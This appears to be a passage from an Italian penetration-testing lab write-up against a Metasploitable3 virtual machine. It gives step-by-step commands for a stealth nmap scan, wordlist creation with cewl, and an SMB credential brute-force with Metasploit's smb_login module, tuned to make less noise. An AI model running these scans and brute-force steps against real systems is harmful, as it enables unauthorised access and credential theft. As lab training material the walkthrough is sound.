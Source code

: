 ### c)Scansione Completa della Macchina Target
Eseguiamo una scansione completa del target per poter raccogliere quante più informazioni possibili prima di eseguire il nostro attacco
+ Aprire il terminale sulla propria macchina (Kali Linux).
+ Digitare: ```nmap -v -sS -sV -T4 -A 10.0.2.4.```
  - v: Modalità verbosa.
  - sS: (SYN stealth scan): esegue una scansione SYN stealth, che è più silenziosa e meno invasiva.
  - T4: Alta velocità di scansione.
  - A: Abilita la rilevazione del sistema operativo, versioni, script di scansione e traceroute.
  - sV (version detection): tenta di identificare la versione dei servizi in esecuzione sulle porte aperte
  
**Risultato**: La scansione fornisce dettagli sui servizi in esecuzione, le versioni, e ulteriori informazioni sul sistema operativo della macchina target.


#### Riferimenti
https://www.redhat.com/sysadmin/quick-nmap-inventory

## Exploit della porta 445
Identificata una macchina con la porta 445 aperta, abbiamo sfruttato un exploit di brute force noto per ottenere le credenziali SMB. Questo è stato realizzato attraverso un attacco di forza bruta e l'utilizzo di un dizionario per gli username e password.
Adesso andremo a creare un dizionario che utilizzeremo per i nomi utente e password. Successivamente, utilizzeremo un exploit per tentare il brute force sulla porta 445 utilizzando questo dizionario.

### a)Creazione del dizionario
Utilizziamo il comando Kali cewl per costruire un nuovo elenco di parole dal contenuto della pagina di configurazione di metasploitable3: 
Digitare nel terminare: ```cewl -d 0 -w metasploitable3.txt https://github.com/rapid7/metasploitable3/wiki/Configuration``` (l'opzione -d 0 indica che i collegamenti ipertestuali non devono essere seguiti)

### b)Esexuzione Exploit
Andiamo ad eseguire l'exploit seguendo questa procedura:

**1)Aprire Metasploit**: Aprire il terminale e digitare il comando per avviare Metasploit:```msfconsole```.

**2)Caricare il modulo SMB Login Scanner**: Una volta aperto Metasploit, caricare il modulo per eseguire un attacco brute force sull'SMB (porta 445): ```use auxiliary/scanner/smb/smb_login```.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Impostare il file dei nomi utente**: Specificare il percorso del file che contiene i nomi utente: ```set USER_FILE /home/kali/metasploitable3.txt```.

**5)Impostare il file delle password**: Specificare il percorso del file che contiene le password: ```set PASS_FILE /home/kali/metasploitable3.txt.```

**6)Attivare opzione**: Impostare ```set STOP_ON_SUCCESS true``` in modo che l'exploit termini appena trovare delle credenziali valide (cosi genero meno rumore).
